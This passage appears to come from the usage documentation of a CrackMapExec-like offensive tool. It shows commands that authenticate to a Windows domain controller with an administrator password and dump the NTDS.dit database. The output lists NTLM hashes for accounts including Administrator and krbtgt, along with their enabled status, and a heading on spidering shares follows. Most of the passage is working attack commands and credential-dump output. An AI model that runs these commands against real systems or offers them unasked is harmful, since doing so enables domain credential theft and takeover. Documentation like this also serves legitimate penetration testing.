 ```
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\agrande:1104:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727::: (pwd
LastSet=2019-01-18 10:58)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\ozzy:1111:aad3b435b51404eeaad3b435b51404ee:9ae52054b53d771c62414f93ed0a2599::: (pwdLas
tSet=2019-01-25 13:46)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 testuser:1121:aad3b435b51404eeaad3b435b51404ee:86673aaff536236dd926c9af42642044::: (pwdLastSet=201
9-02-07 13:04)
```

------------------------------------------------------------------------
### Show the account status for each NTDS.dit account  
Enabled or disabled.   
```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds --ntds-status

Aug.20.19 17:37:19  SMB         10.10.33.100:445  10.10.33.100 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:True) (SMBv:1)
Aug.20.19 17:37:19  SMB         10.10.33.100:445  10.10.33.100 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 [+] Dumping the NTDS, this could take a while so go grab a redbull...
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 Administrator:500:aad3b435b51404eeaad3b435b51404ee:aef8db238cf09c4744b7b2a26277189b::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Disabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:196ced39f728b80790127de587b8d8ee::: (status=Disabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\agrande:1104:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\ozzy:1111:aad3b435b51404eeaad3b435b51404ee:9ae52054b53d771c62414f93ed0a2599::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 testuser:1121:aad3b435b51404eeaad3b435b51404ee:86673aaff536236dd926c9af42642044::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 ringo:1122:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 FdBChukYpb:1123:aad3b435b51404eeaad3b435b51404ee:1074d4d3b4de771fa1220899072fe02d::: (status=Enabled)
```


--------------------------------------------------------------------------------------------------------------------------------------------------------
--------------------------------------------------------------------------------------------------------------------------------------------------------
# Spidering Shares

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| true          | false       | false       | false       | true*      |
